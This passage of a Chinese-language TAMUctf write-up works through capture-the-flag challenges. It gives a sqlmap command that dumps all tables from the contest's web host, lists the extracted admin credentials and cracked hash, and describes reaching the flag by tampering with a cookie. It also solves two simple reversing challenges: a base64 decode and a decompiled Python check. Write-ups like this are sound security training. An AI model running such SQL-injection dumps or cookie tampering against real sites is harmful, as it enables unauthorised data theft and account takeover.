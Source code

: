 对该链接`http://web6.tamuctf.com/message?id=2` 测试注入。

```bash
python sqlmap.py -u "http://web6.tamuctf.com/message?id=2" -p id --threads 10 --dump-all --random-agent --hex
```

![1552782785371](1552782785371.png)

得到admin用户邮箱为`1337-admin@l337secur1ty.hak` ，Secret值为`WIFHXDZ3BOHJMJSC`，id为1，密码哈希为`02ca0b0603222a090fe2fbf3ba97d90c` ，在somd5查询对应明文为`secretpasscode` 。

使用burp修改cookie后转发可见flag为`gigem{th3_T0tp_1s_we4k_w1tH_yoU}`。

![1552783404288](1552783404288.png)

# Reversing

## Cheesy

```bash
echo Z2lnZW17M2E1eV9SM3YzcjUxTjYhfQ== | base64 -d
gigem{3a5y_R3v3r51N6!}
```

## Snakes over cheese

使用[pyc在线反编译](https://www.toolnb.com/tools/pyc.html) 得到如下代码：

```python
# uncompyle6 version 3.2.5
# Python bytecode 2.7 (62211)
# Decompiled from: Python 2.7.5 (default, Oct 30 2018, 23:45:53) 
# [GCC 4.8.5 20150623 (Red Hat 4.8.5-36)]
# Embedded file name: reversing2.py
# Compiled at: 2018-10-08 03:28:58
from datetime import datetime
Fqaa = [102, 108, 97, 103, 123, 100, 101, 99, 111, 109, 112, 105, 108, 101, 125]
XidT = [83, 117, 112, 101, 114, 83, 101, 99, 114, 101, 116, 75, 101, 121]

def main():
    print 'Clock.exe'
    input = raw_input('>: ').strip()
    kUIl = ''
    for i in XidT:
        kUIl += chr(i)

    if input == kUIl:
        alYe = ''
        for i in Fqaa:
            alYe += chr(i)

        print alYe
    else:
        print datetime.now()


if __name__ == '__main__':
    main()
```
